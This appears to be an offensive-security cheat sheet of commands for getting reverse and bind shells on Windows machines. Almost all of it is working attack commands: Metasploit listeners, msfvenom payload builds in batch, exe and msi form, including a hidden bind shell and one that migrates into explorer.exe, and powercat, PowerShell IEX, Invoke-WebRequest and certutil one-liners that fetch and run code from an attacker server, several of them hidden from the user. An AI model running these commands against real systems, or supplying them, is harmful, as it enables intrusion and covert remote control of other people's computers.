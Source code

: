 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```


Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```



